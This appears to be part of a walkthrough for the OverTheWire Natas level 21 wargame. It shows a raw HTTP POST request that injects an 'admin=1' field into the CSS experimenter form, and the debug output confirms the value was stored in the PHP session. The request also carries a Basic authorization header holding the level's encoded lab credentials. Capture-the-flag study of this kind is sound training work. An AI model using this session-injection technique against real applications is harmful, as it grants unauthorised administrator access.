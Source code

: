 ```text
POST /index.php?debug HTTP/1.1
Host: natas21-experimenter.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas21-experimenter.natas.labs.overthewire.org/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Authorization: Basic bmF0YXMyMTpJRmVrUHlyUVhmdHppREVzVXIzeDIxc1l1YWh5cGRnSg==
Connection: close
Cookie: __cfduid=dc2e23c92b1d237ff6fcd21eeaace26841568619071; __utma=176859643.1037695426.1568619071.1568619071.1568619071.1; __utmz=176859643.1568619071.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none)
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

align=center&fontsize=100%25&bgcolor=yellow&submit=Update&admin=1

HTTP/1.0 200 OK
Date: Mon, 23 Sep 2019 12:09:42 GMT
Server: Apache/2.4.10 (Debian)
Set-Cookie: PHPSESSID=kvklchlc4spv0iu9i6a5a4g2b7; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 1015
Content-Type: text/html; charset=UTF-8
X-Cache: MISS from localhost
Via: 1.1 localhost:3128 (squid/2.7.STABLE9)
Connection: close
```

```php
<html>
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head>
<body>
<h1>natas21 - CSS style experimenter</h1>
<div id="content">
<p>
<b>Note: this website is colocated with <a href="http://natas21.natas.labs.overthewire.org">http://natas21.natas.labs.overthewire.org</a></b>
</p>
[DEBUG] Session contents:<br>Array
(
    [debug] => 
    [align] => center
    [fontsize] => 100%
    [bgcolor] => yellow
    [submit] => Update
    [admin] => 1
)
```

